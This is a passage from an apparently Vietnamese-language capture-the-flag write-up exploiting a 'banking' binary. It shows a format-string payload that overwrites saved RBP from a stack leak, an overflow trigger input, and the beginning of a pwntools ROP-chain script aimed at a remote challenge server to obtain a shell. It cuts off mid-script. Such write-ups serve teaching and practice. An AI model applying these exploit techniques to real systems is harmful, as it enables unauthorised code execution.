 <img src="./6.png">

Với FSB đầu tiên, ta thấy `RBP` phía trên nằm ngay ở ô stack đầu tiên. Ta hoàn toàn thay đổi được giá trị cho nó. 

<img src="./7.png">

Feedback của chúng ta được nhập bắt đầu từ `0x00007fffffffdb10`. Vậy mình sẽ đưa `RBP` về `0x00007fffffffdb50` để thử trigger xem. 

Lưu ý, giá trị `stack_leak` mình có được ở phía trên là `0x00007fffffffdc20`. 

```python
fake_rbp = stack_leak - 0xd0 
log.info(f"fake rbp = {hex(fake_rbp)}")

payload = f"%{fake_rbp & 0xFFFF}c%6$hn"
register("hacker", 123, payload)
login("hacker", 123) 
info()
```

Stack layout sau khi mình đổi `RBP` và nhập feedback 

<img src="./8.png">

Trigger thành công với input

```python
b"a" * 72 + b"1234567\n"
```

<img src="./9.png">

### Build ropchain
Okay, việc chúng ta bây giờ chỉ là đi build ropchain và lấy shell. 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./banking_patched") 
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("103.163.24.78", 10002)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

def debug():
    gdb.attach(p, gdbscript = """
        b *info+23
        b *main+0x54
        continue
    """)
    pause() 

def login(username, password): 
```